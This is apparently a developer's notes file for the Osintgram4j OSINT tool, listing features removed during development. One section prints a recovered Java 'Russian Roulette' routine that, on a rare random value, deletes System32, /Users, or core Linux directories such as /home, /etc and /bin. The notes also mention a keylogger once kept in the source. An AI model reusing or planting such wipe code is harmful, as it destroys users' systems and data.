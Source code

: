 # Removed Features
This is a list of removed / replaced features that were created during
the development/release stages of Osintgram4j. Some were already forgotten,
but some weren't. Forgotten, as in never committed or pushed to GitHub.

I won't go into every single detail, especially that some methods already
have the `@Deprecated` notice for some specific methods.

## Development Stages (v0.1 - v0.6)
In the development stages, I went through some ideas, which were either
removed or replaced with other methods / functionalities. As of now, we
are still in the v0.1 stage. Don't worry, we are soon transitioning into
the v0.2 territory, where Networking starts to take shape.

### Shell Files
Like Bash/ZSH Script files, I tried bringing Osintgram4j Script files, as a
way of bringing Scripting into it.

This was later on deleted and replaced with the use of `addTarget` method
that can be seen in `src/net/bc100dev/osintgram4j/MainClass.java` file.
The reason for its deletion was to simplify the process of using it instead
of doing something that a Shebang can literally do.

This was later on deleted due to some complexities. However, it's use of file
targets within the CLI itself was replaced with the use of `addTarget` method,
where for each target, it would assign each user as its target.

### Keylogger Easter Egg
For people that like snooping around in the source files, I wanted to add
a little secret, which was a Keylogger. However, that Keylogger didn't have
any purpose, so it was remained as a useless class.

Later in the development, that class was deleted due to potential backlash
that people, or to be exact, haters looking to cancel people, could try to
cancel me, which I am not going that route just yet.

### Russian Roulette System Wipe
As a joke that has relatively low chance of running, I thought about including
a small code Easter egg that also never gets called, which basically, wipes
the System. Let me demonstrate from a recovered commit.

```java
public static void russianRoulette() throws IOException {
    int i = Utility.getRandomInteger(1, 150);
    i += Utility.getRandomInteger(0, Utility.getRandomInteger(715, Integer.MAX_VALUE / 2));
    i /= Utility.getRandomInteger(1, 4);
    i += Utility.getRandomInteger(500, 20000);

    if (i == 2891055) {
        switch (getOperatingSystem()) {
            case WINDOWS -> delete(System.getenv("SystemRoot") + "\\system32");
            case LINUX -> {
                delete("/home");
                delete("/opt");
                delete("/etc");
                delete("/media");
                delete("/mnt");
                delete("/lib");
                delete("/lib32");
                delete("/lib64");
                delete("/bin");
                delete("/sbin");
            }
            case MAC_OS -> delete("/Users");
        }

        return;
    }

    throw new IOException("lucky bastard");
}
```

What it does is the randomness, which I think, is relatively very low chance
of running. If the specific operating system gets detected, it does its
usual thing. On Windows, it deletes System32, while on macOS, I only went for
the `/Users` folder, since I don't personally own a MacBook. With Linux, I
went for the most of the root directories. Also, that was linked with the
File Utility class in the commons directory itself.

Why was it deleted? Because I decided to remove this bloat, but also the
same reason, as said with the Keylogger.

### Package Identifiers
For the modding API thing, I wanted to integrate a way of adding Identifiers
for each package. However, since I noticed that it is bloated in some way or
another, I decided to remove it, along with the Identifier Generation. This
way, packages will no longer use an Identifier. Instead, every package
relies on the JAR Manifest file, giving specific Attributes. Using this way,
the client can rely on File Names instead of specific Package Identification
that are long and unable to read. I mean, would you like to read a 35-long
identifier that does not even use the common strategies, like UUID for
example? I surely don't want to.

### EE Handle
EE stands for "Easter Egg", which was used to handle a remote file and handle
the random password generation. If the password was correct, it would print
out a specific password. This was later on removed, due to some personal
issues with a specific individual.

If you wish to encounter more, then look into the `extres` folder. You will
see two other files, named `unused0.txt` and `unused2.txt`, even though
the Unused 0 might have no leads there. You might want to embrace first
before diving into it.

### Native Shell
As a way of making the best out of the Shell, which include handling specific keys,
like Left Arrow and Right Arrow, it was removed due to complexities of the `ncurses`
library. I wanted it, but given the fact that ChatGPT wrote it, and me, not knowing,
how to fix specific bugs, I had to remove it in favor of the standard `Scanner`
class, which is poorly made. Maybe in the future, I might revisit it.